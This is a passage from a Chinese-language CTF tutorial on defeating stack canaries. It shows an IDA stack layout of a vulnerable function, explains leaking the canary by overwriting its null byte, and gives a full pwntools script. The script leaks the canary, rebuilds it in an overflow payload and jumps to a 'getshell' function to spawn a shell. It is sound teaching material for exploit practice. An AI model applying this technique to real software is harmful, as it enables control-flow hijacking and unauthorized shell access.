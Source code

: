 

![](https://raw.githubusercontent.com/hex-16/pictures/master/CTF_pic/pwn_canary_function_demo.png)

- 上图为IDA中显示的`vuln`函数的汇编指令。`var_C`为canary值

```assembly
; Stack of vuln ; Two special fields " r" and " s" represent return address and saved registers.
-00000075                 db ? ; undefined
-00000074 var_74          dd ?
-00000070 buf             db 100 dup(?)           ; string(C)
-0000000C var_C           dd ? ; 这个就是canary值 # 4 byte
-00000008                 db ? ; undefined
-00000007                 db ? ; undefined
-00000006                 db ? ; undefined
-00000005                 db ? ; undefined
-00000004 var_4           dd ? ; 原本寄存器 ebx 的值
+00000000  s              db 4 dup(?) ; 从上图左边绿色的栈高度可以看出，s是原本的 ebp 的值
+00000004  r              db 4 dup(?) ; 函数的返回地址
+00000008
+00000008 ; end of stack variables
```





#### Leak Canary

> 泄露栈中的

- Canary 设计为以字节 `\x00` 结尾，本意是为了保证 Canary 可以截断字符串。
- 泄露栈中的 Canary 的思路是覆盖 Canary 的低字节，来打印出剩余的 Canary 部分。
- 这种利用方式需要存在合适的输出函数，并且可能需要先溢出泄露 Canary，之后再次溢出控制执行流程。

```python
#!/usr/bin/env python
from pwn import *

context.binary = 'ex2'
#context.log_level = 'debug'
io = process('./ex2') # pwnlib.tubes.process.process
get_shell = ELF("./ex2").sym["getshell"]
print("get_shell:", type(get_shell), hex(get_shell)) # get_shell: <class 'int'> 0x80491b2
ret = io.recvuntil("Hello Hacker!\n") # <class 'bytes'> b'Hello Hacker!\n'

# leak Canary
payload = b"A" * 100 # buf[100] in .c, lead to stack overflow
io.sendline(payload) # pwnlib.tubes.tube.tube.sendline # 这里会以\n结尾 即 0xa # 总共发送的payload长度为 101 bytes
io.recvuntil("A" * 100) # recv output of printf(buf) in .c
recv_v = io.recv(4)

# 这里减去0xa是为了减去上面 io.sendline(payload) 最后的换行符，得到真正的 Canary
Canary = u32(recv_v) - 0xa 
log.info("Canary:" + hex(Canary))

# Bypass Canary
# as the stack shown in IDA: [buf 100byte]-[var_C]-[12byte]-[return_address]
payload = b"\x90" * 100 + p32(Canary) + b"\x90" * 12 + p32(get_shell)
payload = b"a" * 100 + p32(Canary) + b"a" * 12 + p32(get_shell)
io.send(payload)

io.recv()

io.interactive() # 将代码交互转换为手工交互
```
